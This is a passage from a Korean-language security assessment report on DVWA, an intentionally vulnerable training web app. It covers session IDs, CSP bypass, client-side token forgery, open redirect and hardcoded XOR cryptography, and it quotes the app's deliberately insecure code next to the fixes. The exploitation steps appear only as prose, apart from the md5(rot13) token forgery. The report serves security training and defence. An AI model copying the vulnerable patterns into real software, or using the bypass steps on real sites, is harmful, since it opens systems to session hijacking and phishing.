- 단계 분리 구조 자체를 제거하면 step 파라미터 조작을 통한 우회 경로가 원천 차단됩니다.

```php
if( isset( $_POST['Change'] ) ) {
    // 단계를 나누지 않고 하나의 요청에서 CAPTCHA 검증 + 비밀번호 변경 동시 처리
    // step 파라미터 자체가 없으므로 step 조작 공격 경로가 구조적으로 존재하지 않음
    $resp = recaptcha_check_answer(
        $_DVWA['recaptcha_private_key'],
        $_POST['g-recaptcha-response']  // 매 요청마다 새로운 CAPTCHA 토큰 필요
    );
    if( !$resp ) {
        // CAPTCHA 실패 시 비밀번호 변경 처리 자체를 중단
        echo "<pre>The CAPTCHA was incorrect. Please try again.</pre>";
        exit;
    }
    // CAPTCHA를 통과한 경우에만 비밀번호 변경 처리 실행
}
```

#### 핵심 효과

- step 파라미터 자체가 없어 단계 우회 공격이 구조적으로 불가능합니다.

---

### 비정상 요청 탐지 및 로깅

- CAPTCHA 검증 없이 step=2로 직접 요청하거나,  
  세션에 CAPTCHA 통과 기록이 없는 요청을 로그로 기록하여 자동화 공격을 탐지합니다.

- IP, 요청 파라미터, 시각을 로그에 포함하여 이상 패턴을 조기에 식별합니다.

```php
if( !isset( $_SESSION['captcha_passed'] ) || $_SESSION['captcha_passed'] !== true ) {
    // error_log()는 서버의 PHP 에러 로그 파일에 기록 — 공격자는 접근 불가
    error_log(
        "[Insecure CAPTCHA] CAPTCHA 우회 시도 탐지 | " .
        "IP: " . $_SERVER['REMOTE_ADDR'] .               // 요청한 클라이언트 IP 주소
        " | step: " . htmlspecialchars($_POST['step']) .  // 전달된 step 값 (htmlspecialchars로 XSS 방지)
        " | time: " . date('Y-m-d H:i:s')                // 시도 시각
    );
    echo "<pre>CAPTCHA verification required.</pre>";
    exit;
}
```

#### 핵심 효과

- CAPTCHA를 우회한 비정상 요청을 조기에 탐지하고, 반복 시도 발생 시 IP 차단 등 추가 대응이 가능합니다.

</details>

---

## 4.14. Weak Session IDs

| 항목 | 내용 |
|---|---|
| 취약 코드 | SE (중) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/weak_id/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - Weak Session IDs 관련 항목 (p.759~762) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/Weak_Session_IDs/LOW_Weak_Session_IDs.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/Weak%20Session%20IDs_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

#### 취약점 개요

**점검 내용**

- 세션 만료 기간 설정, 예측 가능한 세션 ID 생성, 고정된 세션 ID 발행 등 세션 관리 정책을 점검합니다.

**점검 목적**

- 사용자의 세션 ID를 적절히 관리하여 공격자가 불법적으로 접근하거나 비인가적인 세션 탈취를 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.759~762)

- 본 실습에서는 DVWA의 Low 단계에서 Weak Session IDs 취약점을 대상으로 세션 ID가 예측 가능한 순차 증가 방식으로 발급되어  
  공격자가 타 사용자의 세션 ID를 추측하고 세션 하이재킹이 가능한지 확인하여 취약한 세션 관리 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 **16. 불충분한 세션 관리(p.759)** 항목과 연계하여 점검하였습니다.

---

**보안 위협**

- 사용자에게 발급되는 세션 ID가 만료되지 않거나, 고정 및 예측 가능한 형태일 경우,
  공격자는 해당 세션 ID를 탈취하여 타 사용자나 시스템에 무단 접근할 수 있으며,  
  이로 인해 중요 데이터의 무결성이 훼손될 수 있습니다.

---

## 판단 기준

### 양호

- 추측 불가능한 세션 ID가 발급되고, 세션 종료 시간이 설정되어 있는 경우

### 취약

- 세션 ID가 일정한 패턴으로 발급되거나 세션 종료 시간이 설정되지 않아 세션 재사용이 가능한 경우

---

## 점검 절차

1. DVWA Weak Session IDs 페이지 접근 및 기본 화면 확인
2. Burp Suite HTTP history를 통해 Generate 버튼 클릭 시 발급되는 세션 ID 패턴 분석
3. 반복 클릭으로 dvwaSession 쿠키가 순차 증가하는지 확인
4. 소스코드를 통해 취약한 세션 ID 생성 로직 확인

---

## 취약점 분석

- 소스코드를 보면 `$_SESSION['last_session_id']`를 단순히 1씩 증가시켜 그대로 쿠키로 발급하며, 보안 옵션도 적용되어 있지 않습니다.

```php
  $_SESSION['last_session_id']++;            // 난수 없이 1씩 증가 — 패턴 예측 가능
  $cookie_value = $_SESSION['last_session_id'];
  setcookie("dvwaSession", $cookie_value);   // HttpOnly/Secure 옵션 없이 발급
```

- 세션 ID 생성에 암호학적 난수가 사용되지 않고 단순 증가 값을 그대로 사용하는 구조이기 때문에,  
  공격자가 발급 패턴만 파악하면 타 사용자의 세션 ID를 추측하는 것이 이론적으로 가능합니다.
- `HttpOnly`, `Secure` 등 쿠키 보안 옵션이 적용되지 않은 구조라 세션 ID 값이 노출·변조되기 쉬우며,  
  추측한 값으로 쿠키를 변조하면 별도 인증 없이 해당 세션의 사용자로 접근할 수 있는 구조입니다.

**판단 : 취약** — 실제 환경이었다면 세션 하이재킹을 통해 타 사용자 계정 탈취, 개인정보 유출, 권한 상승 공격으로 이어질 수 있습니다.

---

## 대응 방안

### 암호학적으로 안전한 난수 기반 세션 ID 생성

- 세션 ID는 예측 불가능한 암호학적 난수 생성기(CSPRNG)를 사용하여 생성합니다.
- PHP의 경우 `session_regenerate_id(true)`를 사용하여 로그인 시 새로운 세션 ID를 발급합니다.

```php
session_start();
session_regenerate_id(true); // 기존 세션 폐기 후 새 세션 ID 발급 — 고정 세션 탈취 차단
```

#### 핵심 효과

- 세션 ID가 충분한 엔트로피를 가져 패턴 분석 및 브루트포스 공격을 방어할 수 있습니다.

---

### 세션 ID 128비트 이상 길이 적용

- OWASP Session Management Cheat Sheet는 세션 ID 길이의 최솟값을 **128비트(16바이트)**로 명시합니다.
- 짧거나 단순한 정수 값은 세션 ID로 사용해서는 안 됩니다.

#### 핵심 효과

- 세션 ID 탈취를 위한 브루트포스 공격을 현실적으로 불가능하게 만듭니다.

---

### 쿠키 보안 옵션 설정

- dvwaSession 쿠키에 `HttpOnly`, `Secure`, `SameSite` 옵션을 설정하여 클라이언트 측 탈취를 방지합니다.

```php
setcookie("dvwaSession", $cookie_value, [
    'httponly' => true,    // JavaScript 쿠키 접근 차단 — XSS 연계 탈취 방지
    'secure'   => true,    // HTTPS에서만 쿠키 전송 — 네트워크 도청 차단
    'samesite' => 'Strict' // 외부 사이트 요청 시 쿠키 전송 차단 — CSRF 방지
]);
```

#### 핵심 효과

- JavaScript를 통한 쿠키 탈취(XSS 연계 공격)와 네트워크 도청을 방지할 수 있습니다.

---

### 세션 만료 시간 설정

- 일정 시간 미사용 시 세션을 자동으로 만료시켜 장기간 유효한 세션이 탈취되는 위험을 줄입니다.

```php
// 세션 유효 시간 30분으로 제한 — 미사용 세션 자동 만료
ini_set('session.gc_maxlifetime', 1800);
session_set_cookie_params(1800);
session_start();
```

#### 핵심 효과

- 탈취된 세션 ID의 유효 시간을 제한하여 피해를 최소화할 수 있습니다.

</details>

---

## 4.15. CSP Bypass

| 항목 | 내용 |
|---|---|
| 취약 코드 | CB (중) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/csp/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - CSP Bypass 관련 항목 (p.711 ~ 714) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/CSP%20Bypass/LOW_CSP_Bypass.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/CSP%20Bypass_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 웹 애플리케이션 내 악성 스크립트가 다른 사용자의 브라우저에서 실행되는 취약점 존재 여부를 점검합니다.

**점검 목적**

- 사용자 입력값에 대한 검증을 실시하여, 사용자 세션 탈취, 악성 코드 삽입 등의 악의적인 스크립트 실행을 차단하기 위해서입니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.711 ~ 714)

- 본 실습에서는 DVWA의 Low 단계에서 CSP (Content Security Policy) Bypass 취약점을 대상으로  
  과도하게 허용된 whitelist 도메인을 악용하여 악성 스크립트가 실행되는지 확인하여 CSP 우회 취약점 존재 여부를 점검했습니다.

- CSP Bypass는 XSS 방어 메커니즘인 Content Security Policy를 우회하는 공격 기법으로, 주요정보통신기반시설  
  기술적 취약점 분석·평가 방법 상세가이드의 크로스사이트 스크립트(XSS) 항목(p.711~714)과 연계하여 점검하였습니다.

---

**보안 위협**

- CSP가 설정되어 있더라도 whitelist에 사용자 콘텐츠 업로드가 가능한 외부 도메인이 포함되어 있을 경우,  
  공격자는 해당 도메인에 악성 스크립트를 업로드하여 CSP를 우회하고 스크립트를 실행할 수 있습니다.

- 입력값에 대한 검증 없이 외부 스크립트 URL을 그대로 삽입할 경우,  
  사용자의 쿠키(세션) 탈취, 피싱 사이트 유도 등의 악의적인 공격으로 이어질 수 있습니다.

---

## 판단 기준

### 양호

- CSP whitelist가 최소 권한 원칙에 따라 구성되어 있으며, 입력값에 대한 검증이 이루어져 악의적인 스크립트가 실행되지 않는 경우

### 취약

- CSP whitelist에 불필요한 외부 도메인이 과도하게 허용되어 있거나, 입력값 검증 없이 외부 스크립트가 실행되는 경우

---

## 점검 절차

1. 실습 화면 및 소스코드 확인
2. 입력값 무검증으로 인한 script 태그 삽입 확인
3. whitelist 도메인(cdn.jsdelivr.net) 악용을 통한 CSP 우회 확인
4. 서버 로컬 파일(`'self'`)을 이용한 쿠키 탈취 스크립트 실행 확인

---

## 취약점 분석

- 소스코드를 보면 CSP 헤더의 `script-src` whitelist에 `cdn.jsdelivr.net`,  
  `unpkg.com`처럼 사용자가 임의의 콘텐츠를 업로드할 수 있는 CDN 도메인이 포함되어 있습니다.

```php
$headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com hastebin.com
www.toptal.com example.com code.jquery.com https://ssl.google-analytics.com
unpkg.com cdn.jsdelivr.net digi.ninja ;";
```

- `include` 파라미터 값 역시 검증 없이 `<script src>` 태그에 그대로 삽입하는 구조입니다.

```php
if (isset ($_POST['include'])) {
    $page['body'] .= "<script src='" . $_POST['include'] . "'></script>";
}
```

- whitelist에 사용자 콘텐츠 업로드가 가능한 CDN 도메인이 포함되어 있는 구조이기 때문에, 공격자가 해당 CDN에 악성 JS 파일을 올리고  
  그 URL을 `include` 파라미터에 전달하면 CSP가 허용하는 신뢰된 출처로 위장해 스크립트를 실행시키는 것이 이론적으로 가능합니다.
- `'self'` 정책 역시 서버에 파일 업로드 권한이 있는 공격자에게는 방어 수단이 되지 못하므로,  
  서버 로컬 JS 파일을 통한 쿠키 탈취 스크립트 실행 경로도 함께 열려 있는 구조입니다.

**판단 : 취약** — 실제 환경이었다면 CSP가 존재함에도 불구하고 세션 탈취, 악성 스크립트 실행으로 이어질 수 있는 위험한 상태입니다.

---

## 대응 방안

### CSP whitelist 최소화

- CSP whitelist를 `'self'`만으로 제한하거나, 실제로 필요한 도메인만 최소한으로 허용합니다.
- 특히 cdn.jsdelivr.net, unpkg.com 등 사용자가 임의 콘텐츠를 업로드할 수 있는 도메인은 whitelist에서 반드시 제거해야 합니다.

#### 핵심 효과

- 공격자가 신뢰된 도메인을 악용하여 악성 스크립트를 실행하는 경로를 차단할 수 있습니다.

---

### 입력값 검증 및 허용 URL 서버사이드 검증

- 사용자로부터 입력받은 URL을 그대로 사용하지 않고, 서버사이드에서 허용된 도메인 목록과 비교하여 검증합니다.

```php
$allowed_domains = ['192.168.11.36'];
$parsed = parse_url($_POST['include']);
if (!in_array($parsed['host'], $allowed_domains)) {
    die('허용되지 않은 URL입니다.');
}
```

#### 핵심 효과

- whitelist에 없는 도메인의 스크립트 삽입 시도를 서버 단에서 사전 차단할 수 있습니다.

---

### nonce 또는 hash 기반 CSP 적용

- 도메인 기반 whitelist 대신 nonce(일회성 토큰) 또는 hash 방식을 사용하여 허용된 스크립트만 실행되도록 제한합니다.

```
Content-Security-Policy: script-src 'nonce-랜덤값';
```

#### 핵심 효과

- 외부 도메인 전체를 신뢰하는 방식이 아니라 개별 스크립트 단위로 허용 여부를 제어하여 우회 공격을 차단할 수 있습니다.

---

### 쿠키 보안 옵션 설정

- 세션 탈취 방지를 위해 쿠키에 `HttpOnly`, `Secure`, `SameSite` 옵션을 설정하여 쿠키가 JavaScript로 접근되지 않도록 보호합니다.

#### 핵심 효과

- CSP 우회 취약점이 존재하더라도 쿠키 탈취를 통한 세션 하이재킹을 방지할 수 있습니다.

</details>

---

## 4.16. JavaScript Attacks

| 항목 | 내용 |
|---|---|
| 취약 코드 | JS (중) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/javascript/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - JavaScript Attacks 관련 항목 (p.739~743) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/JavaScript%20Attacks/LOW_JavaScript%20Attacks.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/JavaScript%20Attacks_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 서비스 제공에 필요한 사용자 입력 및 실행단계의 흐름에 대한 검증의 적절성 여부를 점검합니다.

**점검 목적**

- 서버사이드에서 적절한 검증을 통해 비정상적인 입력 및 클라이언트 조작으로 인한 보안 우회를 차단하기 위함입니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.739~743)

- 본 실습에서는 DVWA의 Low 단계에서 JavaScript Attacks 취약점을 대상으로  
  클라이언트 JavaScript에 노출된 token 생성 로직을 분석하여 Burp Suite로 요청을 변조하고,  
  서버 측 검증을 우회할 수 있는지 확인하여 클라이언트 측 보안 로직 노출 취약점 존재 여부를 점검했습니다.

- JavaScript Attacks는 서버사이드에서 수행해야 할 보안 로직이 클라이언트 JavaScript에 노출되어  
  공격자가 이를 분석하고 올바른 값을 위조하여 서버 검증을 우회하는 취약점으로,  
  CWE-602(Client-Side Enforcement of Server-Side Security)에 해당하며  
  주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 프로세스 검증 누락(p.739) 항목과 연계하여 점검하였습니다.

---

**보안 위협**

- 보안 검증 로직이 클라이언트 JavaScript에 노출될 경우,  
  공격자가 이를 분석하여 올바른 token 값을 직접 계산하고 요청을 변조하여 서버 검증을 우회할 수 있습니다.

- 서버가 클라이언트에서 전달된 값을 재검증하지 않을 경우, 가격 조작·권한 우회·인증 우회 등 심각한 피해로 이어질 수 있습니다.

---

## 판단 기준

### 양호

- 보안 검증 로직이 서버사이드에서 구현되어 있으며, 클라이언트에서 전달된 token 및 파라미터 값을 서버에서 재검증하는 경우

### 취약

- 보안 검증 로직이 클라이언트 JavaScript에 노출되어 있으며, 서버가 클라이언트 전달값을 재검증 없이 신뢰하는 경우

---

## 점검 절차

1. DVWA JavaScript Attacks 초기 화면 및 동작 확인
2. 기본값(ChangeMe) 제출 → 실패 메시지 확인
3. Burp Suite HTTP history에서 전송된 파라미터 확인
4. 페이지 소스(Ctrl+U)에서 클라이언트 JavaScript 분석
5. CyberChef로 `md5(rot13("success"))` 계산하여 올바른 token 값 도출
6. Burp Suite Intercept로 token 및 phrase 값 변조 후 Forward
7. "Well done!" 성공 확인

---

## 취약점 분석

- 소스코드를 보면 서버가 검증에 사용하는 token 생성 로직(`md5(rot13(phrase))`)이 클라이언트 JavaScript에 그대로 노출되어 있습니다.

```javascript
function rot13(inp) {
    return inp.replace(/[a-zA-Z]/g,function(c){
        return String.fromCharCode((c<="Z"?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26);
    });
}
function generate_token() {
    var phrase = document.getElementById("phrase").value;
    document.getElementById("token").value = md5(rot13(phrase));
}
generate_token();
```

- token 생성 알고리즘 자체가 페이지 소스(Ctrl+U)만으로 열람 가능한 구조이기 때문에,  
  공격자가 원하는 phrase 값에 대해 올바른 token 값을 직접 계산해내는 것이 가능합니다.
- 서버가 클라이언트에서 전달된 token 값을 재검증 없이 그대로 신뢰하는 구조이므로,  
  Burp Suite 등으로 phrase와 token 값을 함께 변조해 전송하면 검증 로직을 그대로 통과시킬 수 있는 구조입니다.

**판단 : 취약** — 실제 환경이었다면 가격 조작, isAdmin 필드 변조, 인증 우회 등 심각한 피해로 이어질 수 있는 위험한 상태입니다.

---

## 대응 방안

### 서버사이드 세션 기반 token 검증 구현

- 클라이언트 JavaScript가 `md5(rot13(phrase))`를 계산하여  
  token을 생성하는 구조를 제거하고, 서버가 랜덤 token을 생성하여 세션에 저장합니다.

- 서버사이드에서 구현된 토큰 기반 접근 통제를 적용하고, 제출 시 서버 세션에 저장된 값과 비교하여 검증합니다.

```php
  session_start();
  
  // 서버가 token 생성 후 세션에 저장
  $_SESSION['token'] = bin2hex(random_bytes(32));
  echo '<input type="hidden" name="token" value="' . $_SESSION['token'] . '">';
  
  // 제출 시 서버 세션값과 비교하여 검증
  if (isset($_POST['token'], $_POST['phrase'])
      && $_POST['token'] === $_SESSION['token']
      && $_POST['phrase'] === 'success') {
      $_SESSION['token'] = bin2hex(random_bytes(32)); // 일회성 재발급
      echo 'Well done!';
  } else {
      echo 'You got the phrase wrong.';
  }
```

#### 핵심 효과

- Burp Suite로 token 값을 임의로 변조하더라도 서버 세션에 저장된 값과 달라 검증에 실패하므로 프로세스 우회가 불가능합니다.

---

### 클라이언트 JavaScript 보안 로직 의존 금지

- Javascript 로직 변조를 통한 논리 오류가 발생하지 않도록  
  `rot13`, `md5` 등 보안 판단에 사용되는 알고리즘을 클라이언트 JavaScript에 포함하지 않습니다.

- 페이지 소스(Ctrl+U), 개발자 도구(F12)로 누구나 열람 가능한  
  클라이언트 코드에는 검증 로직을 두지 않고, 반드시 서버사이드에서 수행합니다.

#### 핵심 효과

- 공격자가 소스코드를 분석하더라도 token 생성 알고리즘을 파악할 수 없어 올바른 token 위조가 불가능합니다.

---

### 클라이언트 전달값을 보안 판단 기준으로 사용 금지

- hidden 필드로 전달되는 token 등 클라이언트가  
  Burp Suite로 자유롭게 변조할 수 있는 값을 서버의 보안 판단 기준으로 사용하지 않습니다.

- 프로세스 검증에 필요한 값은 반드시 서버 세션에서 직접 조회하여 사용합니다.

#### 핵심 효과

- 패킷 변조 도구로 token 값을 수정하더라도 서버 세션과 일치하지 않으므로 프로세스 우회가 불가능합니다.

---

### 비정상 요청 탐지 및 로깅

- 서버사이드에서 token 또는 phrase 검증에 실패한 요청을 로그로 기록하여 반복적인 프로세스 우회 시도를 탐지합니다.
- IP, 전달된 token·phrase 값, 시각 등을 로그에 포함하여 이상 패턴을 조기에 식별합니다.

#### 핵심 효과

- 공격 시도를 조기에 탐지하고 반복 요청 발생 시 IP 차단 등 추가 대응이 가능합니다.

</details>

---

## 4.17. Open HTTP Redirect

| 항목 | 내용 |
|---|---|
| 취약 코드 | OR (하) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/open_redirect/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - Open HTTP Redirect 관련 항목 (p.739 ~ 743) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/Open%20HTTP%20Redirect/LOW_Open%20HTTP%20Redirect.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/Open%20HTTP%20Redirect_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 서비스 제공에 필요한 사용자 입력 및 실행단계의 흐름에 대한 검증의 적절성 여부를 점검합니다.

**점검 목적**

- 서버 사이드에서 적절한 검증을 통해 비정상적인 입력 및 프로세스 흐름으로 허용되지 않은 기능에 접근하는 것을 차단하기 위함입니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.739 ~ 743)

- 본 실습에서는 DVWA의 Low 단계에서 Open HTTP Redirect 취약점을 대상으로 `redirect` 파라미터 값에 대한  
  검증 없이 외부 URL로 리다이렉트가 가능한지 확인하여 비검증 리다이렉트 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드에  
  Open HTTP Redirect 독립 항목은 없으며, 프로세스 검증 누락(p.739) 항목과 연계하여 점검하였습니다.

---

**보안 위협**

- 프로세스 또는 기능에 대한 접근 제어 및 검증이 미흡할 경우, 비정상적인 입력값을 통해  
  사용자를 악성 외부 사이트로 유도하거나 중요 페이지에 대한 무단 접근 및 개인정보 유출이 가능합니다.

---

## 판단 기준

### 양호

- 중요 페이지에 사용자 검증 로직이 구현되어 있어, 타 사용자의 권한 탈취 및 URL 직접 접근이 제한된 경우

### 취약

- 중요 페이지에 사용자 검증 로직이 미흡하여, 타 사용자의 권한 탈취 및 URL 직접 접근이 가능한 경우

---

## 점검 절차

1. DVWA Open HTTP Redirect 페이지 접근 및 기본 화면 확인  
2. Quote 1, Quote 2 링크 클릭으로 정상 리다이렉트 동작 및 URL 파라미터 구조 확인  
3. `redirect` 파라미터 값을 외부 URL로 변조하여 리다이렉트 성공 여부 확인  
4. Burp Suite Intercept를 통해 변조 요청 및 리다이렉트 흐름 캡처  

---

## 취약점 분석

- 소스코드를 보면 `$_GET['redirect']` 값이 내부 URL인지 외부 URL인지 확인하는 절차 없이 `Location` 헤더에 그대로 삽입됩니다.

```php
<?php
  if (array_key_exists ("redirect", $_GET) && $_GET['redirect'] != "") {
      header ("location: " . $_GET['redirect']);  // redirect 파라미터 값을 검증 없이 그대로 Location 헤더에 삽입
      exit;
  }

  http_response_code (500);
  ?>
  <p>Missing redirect target.</p>
  <?php
  exit;
?>
```

- 공백 여부만 확인할 뿐 도메인 검증, 화이트리스트 적용, URL 인코딩 처리가 전혀 없는 구조이기 때문에,  
  `redirect` 파라미터에 임의의 외부 URL을 삽입하면 DVWA 서버를 경유해 해당 사이트로 리다이렉트시키는 것이 가능합니다.
- 신뢰할 수 있는 DVWA 도메인 링크로 위장해 피해자에게 전달할 수 있는 구조이기 때문에,  
  사용자가 링크의 목적지를 의심하지 않고 클릭하도록 유도하는 피싱 공격에 악용될 수 있는 구조입니다.

**판단 : 취약** — 실제 환경이었다면 피싱 사이트 유도, 자격증명 탈취, OAuth 토큰 탈취 등 2차 공격으로 이어질 수 있는 위험한 상태입니다.
---

## 대응 방안

### 화이트리스트 기반 URL 검증 구현

- 허용할 리다이렉트 대상 URL을 서버에서 관리하고, 목록에 없는 URL은 리다이렉트를 거부합니다.

```php
$allowed = ['info.php?id=1', 'info.php?id=2'];
if (in_array($_GET['redirect'], $allowed)) {
    header("location: " . $_GET['redirect']);
    exit;
}
```

- `$allowed` 배열에 허용할 URL만 미리 정의하고, `in_array()`로 파라미터 값이 배열 안에 있는지 확인합니다.
- `https://www.google.com` 같은 외부 URL은 배열에 없으므로 조건이 false가 되어 리다이렉트 자체가 실행되지 않습니다.

#### 핵심 효과

- 외부 URL 삽입 자체를 서버에서 차단하여 Open Redirect 공격을 방지할 수 있습니다.

---

### 인덱스 방식 리다이렉트 적용

- `redirect` 파라미터로 URL을 직접 받지 않고, 숫자 인덱스만 허용하여 서버에서 매핑된 URL로 이동시킵니다.

```php
  $urls = [1 => 'info.php?id=1', 2 => 'info.php?id=2'];
  $id = (int)$_GET['redirect'];
  if (isset($urls[$id])) {
      header("location: " . $urls[$id]);
      exit;
  }
```

- `(int)` 형변환으로 파라미터 값을 강제로 정수로 변환합니다.  
  `https://www.google.com`을 넣으면 `0`이 되어 `$urls[0]`이 존재하지 않으므로 리다이렉트가 실행되지 않습니다.

- 실제 리다이렉트에 사용되는 URL은 `$_GET['redirect']`가 아닌 서버가 정의한 `$urls` 배열의 값이므로, 사용자 입력이 URL에 직접 반영되지 않습니다.

#### 핵심 효과

- 사용자 입력이 URL에 직접 반영되지 않아 외부 URL 삽입 자체가 불가능합니다.

---

### 동일 도메인 여부 검증

- 리다이렉트 대상이 동일 도메인인지 검증하고, 외부 도메인으로의 리다이렉트를 차단합니다.

#### 핵심 효과

- URL 인코딩 우회나 프로토콜 생략 방식의 우회 시도도 함께 방어할 수 있습니다.

</details>

---

## 4.18. Cryptography

| 항목 | 내용 |
|---|---|
| 취약 코드 | CR (상) |
| 취약 등급 | 취약 |
| 취약 경로 | DVWA > Cryptography 메뉴 (Encode / Decode 기능) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/Cryptography/LOW_Cryptography.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/Cryptography_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

- 본 실습에서는 Cryptography 취약점을 대상으로 XOR 암호화를 사용하는 메시지 교환 시스템에서 암호화 키와 패스워드가  
  소스코드에 하드코딩되어 있어 암호문 복호화 및 로그인이 가능한지 확인하여 취약점 존재 여부를 점검했습니다.

---

## 점검 절차

1. DVWA Cryptography 페이지 접속 및 구조 확인
2. 제공된 암호문을 Decode 기능으로 복호화
3. 복호화된 패스워드로 Login 시도
4. Encode 기능을 통한 암호화 동작 확인
5. CyberChef를 통한 XOR 키 분석 및 키 복원 확인

---

## 취약점 분석

- 소스코드를 보면 XOR 키가 코드 내에 고정되어 있고, 패스워드 검증도 하드코딩된 문자열과의 단순 비교로 처리됩니다.

```php
$key = "wachtwoord";
// 암호화 키가 소스코드에 하드코딩 — 소스 노출 시 모든 암호문 복호화 가능

$encoded = xor_this(base64_decode($message), $key);
// 복호화 기능을 외부에 그대로 노출 — 공격자가 가로챈 암호문을 서버를 통해 직접 복호화 가능

if ($password == "Olifant") {
// 패스워드가 소스코드에 하드코딩 — 소스 노출 시 패스워드 즉시 획득 가능
```

- 암호화 키와 패스워드가 코드에 하드코딩되어 있는 구조이기 때문에,  
  소스코드가 유출되면 암호화 로직과 패스워드 값을 동시에 확보할 수 있는 구조입니다.
- XOR 암호화는 동일한 키를 반복 사용하는 방식이라,  
  알려진 평문 공격(Known Plaintext Attack)만으로 키를 복원하는 것이 가능합니다.
- 복호화 기능이 별도의 인증 없이 외부에 노출되어 있는 구조이기 때문에,  
  서버 자체가 가로챈 암호문을 대신 복호화해주는 오라클로 악용될 수 있는 구조입니다.

**판단 : 취약** — 실제 환경이었다면 암호화된 통신 내용 전체가 노출되고 인증 우회로 이어질 수 있습니다.

---

## 대응 방안

### 강력한 암호화 알고리즘 사용

- XOR과 같은 취약한 암호화 방식 대신 검증된 표준 암호화 알고리즘을 적용합니다.

```php
function encryptMessage($plaintext, $key) {
    $iv = random_bytes(12);
    // random_bytes()로 매 암호화마다 다른 IV 생성 — 동일 평문도 다른 암호문으로 출력
    $ciphertext = openssl_encrypt($plaintext, 'aes-256-gcm', $key, OPENSSL_RAW_DATA, $iv, $tag);
    // AES-256-GCM으로 암호화 — XOR 대비 수학적으로 안전한 알고리즘, 기밀성과 무결성 동시 보장
    return base64_encode($iv . $tag . $ciphertext);
    // IV + 인증태그 + 암호문을 함께 저장 — 복호화 시 무결성 검증 가능
}
```

#### 핵심 효과

- 알려진 평문 공격으로 키를 복원하는 것이 불가능합니다.

---

### 암호화 키 환경변수로 관리

- 암호화 키를 소스코드에 하드코딩하지 않고 환경변수 또는 별도의 키 관리 시스템에서 불러옵니다.

```php
$key = getenv('ENCRYPT_KEY');
// 환경변수에서 키를 불러옴 — 소스코드가 노출되어도 키 값은 알 수 없음
if (!$key || strlen($key) < 32) {
    throw new Exception('Invalid encryption key');
    // 키 길이 검증 — 최소 32바이트(256비트) 이상의 키 사용 강제
}
```

#### 핵심 효과

- 소스코드가 유출되어도 암호화 키가 노출되지 않습니다.

---

### 복호화 기능 접근 제한

- 외부에 노출된 복호화 엔드포인트에 인증 및 권한 검증을 적용하여 무분별한 복호화 요청을 차단합니다.

```php
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    http_response_code(403);
    // 권한 없는 요청에 403 반환 — 복호화 오라클로 악용 차단
    exit('Access denied');
    // 관리자 권한 확인 — 인가된 사용자만 복호화 기능 접근 허용
}
```

#### 핵심 효과

- 공격자가 서버를 복호화 오라클로 악용하는 것을 차단합니다.

---

### 패스워드 안전한 해시 처리

- 패스워드를 소스코드에 하드코딩하지 않고 안전한 해시 함수로 저장 및 검증합니다.

```php
$hashedPassword = password_hash($password, PASSWORD_BCRYPT);
